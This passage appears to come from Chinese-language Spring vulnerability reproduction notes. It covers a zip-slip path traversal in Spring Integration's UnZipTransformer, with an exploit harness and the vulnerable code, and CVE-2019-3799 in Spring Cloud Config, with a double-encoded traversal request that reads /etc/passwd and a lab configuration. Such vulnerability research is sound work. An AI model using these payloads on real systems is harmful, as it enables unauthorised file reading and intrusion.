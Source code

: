 ```
	InputStream evilIS = evilResource.getInputStream();
	Message<InputStream> evilMessage = MessageBuilder.withPayload(evilIS).build();
	UnZipTransformer unZipTransformer = new UnZipTransformer();
	unZipTransformer.setWorkDirectory(path);
	unZipTransformer.afterPropertiesSet();
	unZipTransformer.transform(evilMessage);
}
```
Factor: 
```
protected Object doZipTransform(final Message<?> message) throws Exception {
    public void process(InputStream zipEntryInputStream, ZipEntry zipEntry) throws IOException {
        final String zipEntryName = zipEntry.getName();
						
	if (ZipResultType.FILE.equals(zipResultType)) {
		final File tempDir = new File(workDirectory, message.getHeaders().getId().toString());
		tempDir.mkdirs(); //NOSONAR false positive
		final File destinationFile = new File(tempDir, zipEntryName);

		if (zipEntry.isDirectory()) {
			destinationFile.mkdirs(); //NOSONAR false positive
		}
		else {
			SpringZipUtils.copy(zipEntryInputStream, destinationFile);
			uncompressedData.put(zipEntryName, destinationFile);
		}
	}
}
```

### （10）Spring Cloud Config
CVE-2019-3799、CVE-2020-5405、CVE-2020-5410类似，可复用同一环境，更改Spring Cloud Config版本即可

#### CVE-2019-3799 Directory Traversal
Affected Version: < 2.1.2 or 2.0.4 or 1.4.6

Diff: https://github.com/spring-cloud/spring-cloud-config/commit/3632fc6f64e567286c42c5a2f1b8142bfde505c2

POC:
```
GET /a/b/test/..%252F..%252F..%252F..%252F..%252F..%252F..%252Fetc%252Fpasswd
```
Conf:（远程）
```
info:
  component: Config Server
spring:
  application:
    name: configserver
  autoconfigure.exclude: org.springframework.boot.autoconfigure.jdbc.DataSourceAutoConfiguration
  jmx:
    default_domain: cloud.config.server
  cloud:
    config:
      server:
        git:
          uri: https://github.com/spring-cloud-samples/config-repo
          repos:
            - patterns: multi-repo-demo-*
              uri: https://github.com/spring-cloud-samples/config-repo
```
Factor: 
```
org.springframework.cloud.config.server.resource.ResourceController
```